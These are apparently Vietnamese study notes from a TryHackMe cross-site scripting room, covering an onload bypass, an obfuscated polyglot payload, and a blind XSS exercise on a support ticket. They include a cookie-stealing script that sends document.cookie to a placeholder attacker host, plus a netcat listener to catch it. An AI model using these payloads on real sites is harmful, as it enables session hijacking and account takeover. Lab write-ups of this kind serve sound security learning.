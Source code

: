 5.
- Nếu là ảnh, lợi dụng onload event của ảnh để bypass: `/images/cat.jpg" onload="alert('THM');`

## 6.1 Polyglot
- Polyglot là 1 chuỗi văn bản có thể thoát các attributes, tags và bypass filter. Có thể dùng polyglot để execute code ở các challenge.
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

# 7. Practical Example (Blind XSS)
- Sau khi exploit thành công vào support ticket, dùng ` </textarea><script>alert('THM');</script>` vào phần content.
- Ta có thể mở rộng và tăng vuln impact. Because this feature is creating a support ticket, ta có lý do để tin rằng staff member sẽ xem nó và execute JS.
- 1 vài thông tin có thể trích xuất là cookie, ta có thể dùng nó để leo thang đặc quyền bằng cách hijacking their login session. Để làm được điều đó, payload cần extract the user's cookie và exfitrate nó tới webserver khác mà ta chọn.
- Đầu tiên cần set up một listening server để nhận infor:
	+ `nc -n -l -v -p 9001`: dùng Netcat, listen on port 9001 (`-l` cho listen mode, `-n` tránh resolution of hostname via DNS, `-v` verbose mode).
- Build payload: `</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
	+ `</textarea>`: đóng text area field
	+ `<script>`: mở để ghi JS
	+ `fetch()`: thực hiện HTTP request
	+ `URL_OR_IP`: request bắt URL, đchi IP từ THM attackbox.
	+ `PORT_NUMBER`: port dùng listen for connection trên Attackbox
	+ `?cookie=`: query string chứa cookie của victim
	+ `btoa()`: base64 encode the victim's cookie.
	+ `document.cookie`: access the victim's cookie cho Acme IT Support Website.
+ `</script>`: đóng JS 

